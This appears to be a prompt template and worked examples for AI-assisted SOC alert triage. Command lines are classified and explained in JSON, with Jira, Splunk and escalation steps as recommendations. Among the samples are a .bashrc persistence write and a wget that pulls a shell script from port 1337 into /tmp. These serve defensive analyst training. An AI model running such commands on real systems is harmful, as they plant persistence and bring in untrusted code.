 Instructions:
Role: expert security engineer
Objective: Analyze command line commands, options, and arguments.
Output Format: properly formatted JSON
Analysis must include the following:
- Summary: A one-sentence summary of the log
- Classification: Categorize the command as either 'malicious', 'suspicious', or 'benign' using **analysis context** and **operating environment** as a guide
- Explanation: A detailed breakdown of the log
- Recommendations: considering the available **security tools and platforms** and provide no more than three actions that a junior SOC analyst should take after receiving the alert. Note: If the classification is 'benign' then no action needs to be taken and this section can be 'N/A'. Documentation is the most important first step, carefully consider the capabilities and limitations of a typical junior SOC analyst when providing recommendations.
**Analysis Context:**
- Consider the identity and role of the user executing the command (e.g. expected behavior)
- Consider the source context from where the command was executed
- Consider the expected output or result result from the command
- Consider the associated network activity of the command
**Operating Environment**
- The commands provided for analysis were collected from desktop and server endpoints
- Our environment includes: 
 - Desktop computing environments: Mac computers for the majority of end users, linux servers maintained by engineering, a small deployment of Windows 10 machines used by IT and facilities.
 - Cloud environments: Various Azure and Google Cloud services
 - Mobile devices: Android and iPhones with MDM profiles which gate access to internal corporate applications
**security tools and platforms**
- Jira
- Splunk
- SentinelOne
- ThreatConnect
- Nessus
- Encase
- Cuckoo Sandbox

Command: 'echo "/tmp/app_helper" >> /home/WEB_VM/.bashrc'

{
  "Summary": "This command appends the path '/tmp/app_helper' to the .bashrc file of the user 'WEB_VM'.",
  "Classification": "Suspicious",
  "Explanation": "The command 'echo' is used to create the text '/tmp/app_helper'. The '>>' operator makes sure this text gets added to the '.bashrc' file in the 'WEB_VM' user's home directory. The .bashrc file is like a startup script for this user; every time 'WEB_VM' starts a new terminal session, the commands or paths in this file run automatically. Adding something to this file can be risky: if '/tmp/app_helper' is a malicious script, it would run every time 'WEB_VM' opens a terminal.",
  "Recommendations": [
        "1. Document the observed suspicious activity in 'Jira'. Include all relevant details such as the command, user, timestamps, and system. Set the priority of the issue to high due to the potential risk associated with modification of '.bashrc'.",
        "2. Use 'Splunk' to search for logs related to the 'WEB_VM' user activity within the last 48 hours. Look for login patterns, command execution, and any related network communications. This will help in understanding the context of this suspicious command and if there were any other related activities.",
        "3. Notify the senior SOC analyst or incident response team about this discovery for further analysis. Provide them with the 'Jira' ticket and initial findings from 'Splunk'."
  ]
}

Command: ping -c 4 database.server

 {
  "Summary": "This command pings the host named 'database.server' four times.",
  "Classification": "Benign",
  "Explanation": "The 'ping' command is used to check network connectivity to another host via the Internet Control Message Protocol (ICMP). In this case, the 'ping' command is being used with the '-c' option to limit the number of packets sent to 4. 'database.server' represents the hostname of the server to which the ping packets are sent. This command is typically used to verify network connectivity, check if a server is up or down, or perform rudimentary network latency tests.",
  "Recommendations": "N/A"
}

Command: wget http://192.168.1.5:1337/update.sh -O /tmp/update.sh

 {
  "Summary": "This command downloads the file 'update.sh' from a local server and saves it as '/tmp/update.sh'.",
  "Classification": "Suspicious",
  "Explanation": "The 'wget' command is used to download files from the internet. It accesses the file 'update.sh' from a server located at '192.168.1.5' on port '1337'. The '-O' option indicates the output file and path where the downloaded file will be saved. In this case, the file 'update.sh' will be downloaded and saved as '/tmp/update.sh'. The server IP address being an internal one raises suspicion. However, 'wget' itself is a common and legitimate command used often in benign operations. It's the use case here (downloading a shell script to a temporary folder) that's considered suspicious, as it could potentially be a way of bringing in malicious software.",
  "Recommendations": [
        "1. Document the observed suspicious activity in 'Jira'. Include all related details such as the command, user, timestamps, and system. Highlight the source server IP and its unauthorized connection attempts.",
        "2. Use 'Splunk' to search for logs related to the IP address '192.168.1.5'. This would help to establish any pattern of activity from this IP and its interaction with our systems.",
        "3. Notify the senior SOC analyst or incident response team about your observations for further investigation. Submit the created 'Jira' ticket and initial findings from 'Splunk' for their review."
  ]
}